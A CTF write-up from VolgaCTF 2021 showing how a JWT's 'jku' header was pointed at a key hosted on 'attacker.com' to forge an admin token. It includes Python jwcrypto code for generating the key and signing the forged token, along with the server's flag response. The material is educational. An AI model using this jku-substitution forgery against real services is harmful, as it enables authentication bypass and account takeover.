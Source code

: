 ```yaml
---
layout: post
title:  "JWT"
tags: ctf
author: f02a8dfe
---
```

JWT
VolgaCTF Qualifier, 27th March 2021

The author provided a simple site with registration and login functionality.

Once logged in the site set a cookie:

<pre class="highlight" style="word-break:break-word;white-space:inherit">
Set-Cookie: token=eyJraWQiOiJIUzI1NiIsImFsZyI6IkhTMjU2In0.eyJqa3UiOiJodHRwOi8vbG9jYWxob3N0OjgwODAvc2VjcmV0IiwiZXhwIjoxNjE3NTQ2NTE4LCJqdGkiOiJFX3JzNEpZc2RGQ2hxSDM2dHJndUV3IiwiaWF0IjoxNjE2OTQxNzE4LCJuYmYiOjE2MTY5NDE1OTgsInN1YiI6ImFiY2QifQ.MdKqbbfQ7f2Y4tS0eJhH1bvuBVRyJj9HMCSdGL2aMOs;
</pre>

including the following header:

```
{
  "kid": "HS256",
  "alg": "HS256"
}
```

and claims:

```
{
  "jku": "http://localhost:8080/secret",
  "exp": 1617459556,
  "jti": "hQT90SFLRlhi_xSJlB2KWg",
  "iat": 1616854756,
  "nbf": 1616854636,
  "sub": "username"
}
```

The `jku` is "a URI that refers to a resource for a set of JSON-encoded public keys, one of which corresponds to the key used to digitally sign the JWS" [(RFC 7515)][rfc].

A base 64 encoded octal JSON Web Key (JWK) for HS256 was generated with [jwcrypto][jwcrypto]:

{% highlight python %}
from jwcrypto import jwt

# create key
key = jwk.JWK(generate='oct', size=256)
print(key.export())
{% endhighlight %}

and the following JSON, designed to match the token header, was hosted at `http://attacker.com/secret`:

```
{
  "kty": "oct",
  "kid": "HS256",
  "alg": "HS256",
  "k": "Ja0vLfBnpQ6_HTzVEn60eRklKHT2lE8zF0-8ZbqAGkk"
}
```

By updating the claims `jku` and `sub` values:

```
{
  "jku": "http://attacker.com/secret",
  "exp": 1617459556,
  "jti": "hQT90SFLRlhi_xSJlB2KWg",
  "iat": 1616854756,
  "nbf": 1616854636,
  "sub": "admin"
}
```

and signing a new token with the key from `http://attacker.com/secret`:

{% highlight python %}
from jwcrypto import jwt, jwk

# import key
k = {"k":"Ja0vLfBnpQ6_HTzVEn60eRklKHT2lE8zF0-8ZbqAGkk","kty":"oct"}
key = jwk.JWK(**k)

# content
header = {"kid": "HS256","alg": "HS256"}
claims = {"jku": "http://attacker.com/secret",
          "exp": 1617459556,"jti": "hQT90SFLRlhi_xSJlB2KWg",
          "iat": 1616854756,"nbf": 1616854636,"sub": "admin"}
          
# create token
token = jwt.JWT(header=header,claims=claims)
token.make_signed_token(key)
print(token.serialize())
{% endhighlight %}

When the token was submitted the web server retrieved the key from `http://attacker.com/secret`, validated the tampered token and returned the flag:

{% highlight html %}
<!DOCTYPE HTML>
<html>
<head>
  <title>Main Page</title>
  <meta http-equiv="Content-Type" content="text/html; charset=UTF-8"/>
  <link rel="stylesheet" type="text/css" href="css/style.css">
</head>
<body>
<div class="login-box">
  
    <h2>Hello, admin</h2>
    <div style="color: #03e9f4">
      Flag is here VolgaCTF{jW5_jku_5u85T1TUt10n}
    </div>
    <div class="submit-button">
      <span></span>
      <span></span>
      <span></span>
      <span></span>
      <a href="/logout">Logout</a>
    </div>
  
</div>
</body>
</html>
{% endhighlight %}

[rfc]: https://tools.ietf.org/html/rfc7515#page-10
[jwcrypto]: https://jwcrypto.readthedocs.io/


